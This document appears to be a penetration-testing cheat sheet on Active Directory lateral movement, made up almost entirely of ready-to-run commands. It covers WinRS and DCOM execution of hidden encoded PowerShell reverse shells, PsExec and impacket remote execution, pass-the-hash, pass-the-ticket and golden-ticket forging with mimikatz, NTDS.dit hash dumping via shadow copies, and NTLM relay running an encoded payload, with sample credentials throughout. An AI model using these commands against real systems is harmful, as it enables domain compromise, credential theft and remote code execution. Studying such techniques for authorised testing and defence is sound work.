

# 🏹 AD Lateral Movement

## Winrs

```shell
# add the base64-encoded PowerShell reverse shell
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e <encoded_rs>"
```

## PsExec.exe

**Requirements**:

- The user that authenticates to the target machine needs to be part of the Administrators local group.
- The _ADMIN$_ share must be available (enabled by default).
- File and printer sharing has to be turned on (on by default)

```shell
./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd
```

## Evil-Winrm

```shell
# using password
evil-winrm -i <ip>/<domain> -u <user> -p <pass>
evil-winrm -i <ip>/<domain> -u <user> -p <pass> -S
# using hash
evil-winrm -i <ip>/<domain> -u <user> -H <hash>
# using key
evil-winrm -i <ip>/<domain> -c cert.pem -k key.pem -S

# once connected, upload or download files
upload <file>
download <file>

# load PS scripts on connect
evil-winrm -i <ip>/<domain> -u <user> -p <pass> -s <script.ps1>
```

## Impacket-\*execs

**Requirements**:

- An SMB connection through the firewall (commonly port 445).
- The Windows File and Printer Sharing feature must be enabled.
- The admin share called **ADMIN$** must be available.

```shell
# psexec
impacket-psexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# smbexec
impacket-smbexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# wmiexec
impacket-wmiexec -hashes <hash:hash> <domain>/<user>@<IP> <command> 
# atexec
impacket-atexec -hashes <hash:hash> <domain>/<user>@<IP> <command>

# if you only have the NTLM hash portion, use :<ntlm_hash>
```

## Overpass the Hash

> When you have NTLM hashes but need Kerberos access.

```shell
# get hashes with mimikatz
privilege::debug
sekurlsa::logonpasswords
# generate Kerberos ticket
sekurlsa::pth /user:Administrator /domain:<domain> /ntlm:<hash>
# verify Kerberos ticket
klist

# access the resource
dir \\<target>\C$
```

## Pass the Ticket

> When you have Kerberos tickets but not the NTLM hash.

```shell
# export tickets with mimikatz
privilege::debug
sekurlsa::tickets /export
# import it as the current user
kerberos::ptt [0;76126]-2-0-40e10000-Administrator@krbtgt-<rhost>.LOCAL.kirbi
# verify Kerberos ticket
klist

# access the resource
dir \\<target>\admin$
```

## DCOM

```shell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGU...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

## Golden Ticket

Is a forged Kerberos Ticket Granting Ticket (TGT) that allows an attacker to gain complete control of the Active Directory domain because it grants them the ability to request tickets for any service.



```shell
# Windows
# delete existing tickets
kerberos::purge

# get domain SID
whoami /user

# forge the ticket
kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt

# spawn a cmd as the new user
misc::cmd
# or launch psexec.exe
PsExec.exe \\dc1 cmd.exe

# Linux
impacket-ticketer -aesKey <key> -domain-sid <sid> -domain <domain> -extra-sid <parent_sid> <user> -extra-pac

# import the TGT
export KRB5CCNAME=<user>.ccache

# access the machine
impacket-psexec -k -no-pass <domain>/<username>@<hostname>.<domain>
```

To get the parent domain (if needed), use it in `-extra-sid`:

```shell
.\mimikatz.exe "lsadump::trust /patch" "exit"
```

## Shadow Copies

**Requirements**:

- Admins or SYSTEM privs
- Access to a DC (ntds.dit is only on DC)
- Regular user with **SeBackupPrivilege** (Can use robocopy to get the file from the copy)

### vshadow

```shell
# execute vshadow and look for the path
vshadow.exe -nw -p C:
# copy from the path
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
# get system
reg.exe save hklm\system c:\system.bak
# use secretsdump to get the hashes
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```

### diskshadow

First, set up a **shadowcopy.txt** instructions file in which you create a volume with an alias as seen [here](https://pentestlab.blog/tag/diskshadow/):

```shell
set context persistent nowriters
add volume c: alias hack
create
expose %hack% z:
```

Upload the file and execute `diskshadow`

```shell
# execute diskshadow using the file
diskshadow.exe /s .\test.txt
# copy or use robocopy if regular user witn backup perms
robocopy /b z:\Windows\NTDS\ . ntds.dit 
# get system
reg save HKLM\system system
# use secretsdump to get the hashes
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

## NTLM Relay

!!! info
    SMB signing on the target system must be **disabled**

```shell
# check whether the SMB signing is enabled on the target system
nxc smb <target_host>

# capture and forward the request to target host and execute a command on it
impacket-ntlmrelayx --no-http-server -smb2support -t <target_host> -c "powershell -enc JABjAGwAa...AYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA=="

# dump target hashes without executing command
impacket-ntlmrelayx --no-http-server -smb2support -t <target_host>
```
